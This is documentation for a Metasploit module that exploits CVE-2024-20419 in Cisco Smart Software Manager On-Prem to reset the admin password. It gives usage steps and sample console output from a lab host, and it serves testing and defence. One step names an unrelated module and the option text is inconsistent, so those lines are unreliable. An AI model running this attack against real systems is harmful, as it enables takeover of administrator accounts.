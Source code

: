 ## Vulnerable Application

This module exploits an improper access control vulnerability in Cisco Smart Software Manager (SSM) On-Prem <= 8-202206 (CVE-2024-20419),
by changing the password of the admin user.

The vendor published an advisory [here]
(https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cssm-auth-sLw3uhUy). The original research blog
is available [here](https://www.0xpolar.com/blog/CVE-2024-20419).

## Testing

The software can be obtained from the [vendor](https://software.cisco.com/download/home/286285506/type/286326948/release/9-202407).

Deploy it by following the vendor's [installation guide]
(https://www.cisco.com/web/software/286285517/152313/Smart_Software_Manager_On-Prem_8-202006_Installation_Guide.pdf).

**Successfully tested on**

- Cisco Smart Software Manager (SSM) On-Prem v8-202206.

## Verification Steps

1. Deploy Cisco Smart Software Manager (SSM) On-Prem v8-202206
2. Start `msfconsole`
3. `use auxiliary/admin/http/fortra_filecatalyst_workflow_sqli`
4. `set RHOSTS <IP>`
5. `run`
6. A new password should have been set for the admin account.

## Options

### USER
The user of which the password should be changed (default: admin)
### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Smart Software Manager (SSM) On-Prem v8-202206 should result in an output
similar to the following:

```
msf6 > use auxiliary/admin/http/cisco_ssm_onprem_account 
msf6 auxiliary(admin/http/cisco_ssm_onprem_account) > set RHOSTS 192.168.137.200
msf6 auxiliary(admin/http/cisco_ssm_onprem_account) > exploit 
[*] Running module against 192.168.137.200

[+] Server reachable.
[+] Retrieved XSRF Token: RAjYUE7aNosSoXUHQu3S2VWj2h+t5ioGFCV8PwMIkNIkX15f1H10sJJY5V1yTG6tsSkhonOIr2lI3VhseclCRw==
[+] Retrieved _lic_engine_session: 22b193146b9071bbf695182f22bfcb09
[+] Retrieved auth_token: 73e63ab74a07d9d4099d0c9918c21ceaad1c2db94058b32aa6d990178dbe13b5
[+] Password for the admin user was successfully updated: Epd45bZ9OCJIFiEr!
[+] Login at: http://192.168.137.200:8443/#/logIn?redirectURL=%2F
[*] Auxiliary module execution completed
```
